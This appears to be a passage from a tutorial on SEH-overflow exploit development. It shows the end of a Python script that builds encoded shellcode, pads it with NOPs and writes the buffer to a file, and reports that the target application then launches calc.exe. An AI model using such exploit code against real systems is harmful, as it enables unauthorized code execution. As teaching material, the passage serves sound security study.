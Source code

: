 ```
buf += b"\x6f\x85\x93\xeb\x22\x29\x5f\xb9\xd6\xba\x2d\x16\xd8"
buf += b"\x0b\x9b\x40\xd7\x8c\xb0\xb1\x76\x0e\xcb\xe5\x58\x2f"
buf += b"\x04\xf8\x99\x68\x79\xf1\xc8\x21\xf5\xa4\xfc\x46\x43"
buf += b"\x75\x76\x14\x45\xfd\x6b\xec\x64\x2c\x3a\x67\x3f\xee"
buf += b"\xbc\xa4\x4b\xa7\xa6\xa9\x76\x71\x5c\x19\x0c\x80\xb4"
buf += b"\x50\xed\x2f\xf9\x5d\x1c\x31\x3d\x59\xff\x44\x37\x9a"
buf += b"\x82\x5e\x8c\xe1\x58\xea\x17\x41\x2a\x4c\xfc\x70\xff"
buf += b"\x0b\x77\x7e\xb4\x58\xdf\x62\x4b\x8c\x6b\x9e\xc0\x33"
buf += b"\xbc\x17\x92\x17\x18\x7c\x40\x39\x39\xd8\x27\x46\x59"
buf += b"\x83\x98\xe2\x11\x29\xcc\x9e\x7b\x27\x13\x2c\x06\x05"
buf += b"\x13\x2e\x09\x39\x7c\x1f\x82\xd6\xfb\xa0\x41\x93\xf4"
buf += b"\xea\xc8\xb5\x9c\xb2\x98\x84\xc0\x44\x77\xca\xfc\xc6"
buf += b"\x72\xb2\xfa\xd7\xf6\xb7\x47\x50\xea\xc5\xd8\x35\x0c"
buf += b"\x7a\xd8\x1f\x6f\x1d\x4a\xc3\x5e\xb8\xea\x66\x9f"

buf += b"\x90" * (3000 - len(buf))

f.write(buf)
f.close()
```
Which, when passing the string into the application, causes the application to exit and the Windows
calc.exe application to run.

<p align="center"><img src="/images/basics-of-exploit-development-2-seh-overflows/Exploit-Completion.PNG"/></p> 
<p align="center"><i>Success!</i></p>
